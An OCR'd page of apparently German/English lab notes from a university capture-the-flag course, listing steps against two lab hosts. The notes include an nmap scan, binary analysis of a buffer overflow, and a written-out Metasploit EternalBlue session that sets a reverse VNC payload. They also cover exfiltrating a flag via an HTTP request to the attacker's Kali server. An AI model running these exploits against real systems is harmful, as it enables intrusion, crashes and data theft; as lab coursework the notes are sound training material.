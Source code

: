             - env Variablen unterscheiden sich Prozessweise und werden vererbt
                - Findet man auch unter /proc/self/environ
    - Storylistener (10.183.162.31) - Siehe Moodle?
        - Ausführlicher Portscan
            - `sudo nmap -T4 -p- --max-hostgroup=10 --max-parallelism=10 10.183.162.31` 
        1. Flag
            1. `telnet | tee output` 
            2. Special characters clearen Terminal
        2. Flag
            1. "debug_output" via nc (add \r to \n) (Default behaviour of `telnet`)
            2. Tee ouput into file
            3. `binwalk -e --dd=.*` on file 
        - wireshark packets anschauen
            - hier sieht man viel mehr ausgaben, als was man im terminal sieht
            - auf ein Paket der Verbindung; follow TCP stream; fenster auf; als binary; nur vom server zum client; bam binary; binwalk -D drüber
        - darauf dann ghidra werfen
        - react anschauen
        - buffer overflow finden
            - gibt keine stack canaries
            - stack is executable
        - pwntools checksec draufwerfen
        - http 0.9
    - Rogers PC (10.183.0.144) 
        - Machine Access
            - Using metasploit [GitHub](https://github.com/rapid7/metasploit-framework?aliasId=WVurkDeKVlA6gSdpa) the "EternalBlue" exploit can be run to get access to Rogers account (machine will crash after exploit and has to be restartet by tutors)
                - run metasploit: `msfconsole` 
                - (search through database `search` || search online for exploits (CVE))
                - Select module: `use exploit/windows/smb/ms17_010_eternalblue` 
                - (check options: `options` && especially check for payloads: `show payloads` (here no shell but VNC server for gui interaction))
                - Set required options
                    - ```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 69
payload => windows/x64/vncinject/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.183.0.144
rhosts => 10.183.0.144
msf6 exploit(windows/smb/ms17_010_eternalblue) > set viewonly false
viewonly => false
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

``` 
        1. Flag
            1. In documents directory
        2. Flag
            1. Wallpaper name refers to windows registry
            2. run `regedit.exe` 
            3. Go to wallpaper key and modify value to find flag
        3. Transfer Flag
            1. On Kali host start http server `python -m http.server` 
            2. From windows run Internet Explorer and enter in the URL the following: `http://$KALI_IP/flag` 
            3. Request will be visible in webserver logs and therefore flag
        - Archived
            - [RDP Testen & Angreifen
](https://www.heise.de/hintergrund/Remote-Desktop-via-RDP-Testen-und-angreifen-3-4-4702968.html?aliasId=b9GzGTyRJsdKoUtPQ)
            - ```bash
└─$ ./rdpscan 10.183.0.144
10.183.0.144 - VULNERABLE - got appid

``` 